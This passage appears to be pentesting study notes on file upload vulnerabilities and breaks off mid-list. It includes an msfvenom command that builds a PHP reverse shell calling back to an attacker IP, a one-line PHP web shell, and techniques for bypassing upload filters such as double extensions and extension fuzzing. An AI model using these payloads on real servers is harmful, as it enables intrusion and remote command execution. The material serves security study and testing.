     ```shell
    # creating custom reverse shell scripts using msfvenom

    msfvenom -p php/reverse_php LHOST=OUR_IP LPORT=OUR_PORT -f raw > reverse.php
    ```

## Bypassing Filters

* Client-side validation:

  * in case of client-side validation, we cannot upload web shells or PHP scripts directly as it would accept only certain file types

  * to bypass client-side validation, either modify upload request to backend server, or manipulate frontend to disable validation

  * backend request modification - when uploading the actual image, intercept the request and modify the fields ```filename=photo.jpg``` and the file content at end of request; this should be modified to ```filename=shell.php``` and content should be web shell code - for example, ```<?php system($_REQUEST['cmd']); ?>```

  * disabling frontend validation - read and change source code to bypass restrictions

* Blacklisting extensions:

  * not recommended as blacklist cannot be comprehensive (can't include everything); and in Windows systems, we can bypass using mixed-case extensions

  * we can also fuzz extensions to check which ones are blacklisted; for PHP, we can use [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/Extension%20PHP/extensions.lst), and for common extensions, we can check [SecLists](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/web-extensions.txt)

  * for fuzzing we can use Burp Suite's Intruder using the file extension in our request as payload position (uncheck URL-encoding if '.' is there in extension)

  * once we have the non-blacklisted extensions, we can try to bypass the filter; not all extensions will work with all web servers, but the key methodology is same (change extension, replace original content with web shell content)

* Whitelisting extensions:

  * similar to the previous one, we can start by fuzzing extensions and check if any of them bypasses the whitelisting logic implemented

  * double extensions - if ```.jpg``` extension is allowed, upload a file and intercept the request; modify file name to ```shell.jpg.php``` and modify its content to include web shell code

  * reverse double extensions (works in case of web server misconfig) - similar to above method, except for file named as ```shell.php.jpg```; if web server blacklists PHP extensions, for example, then we would have to check which extensions are blacklisted first, before implementing this method

  * character injection - chars can be injected before/after final extension to attempt uploading file as PHP script; each character has a specific use case and works according to web server config. Some characters include:
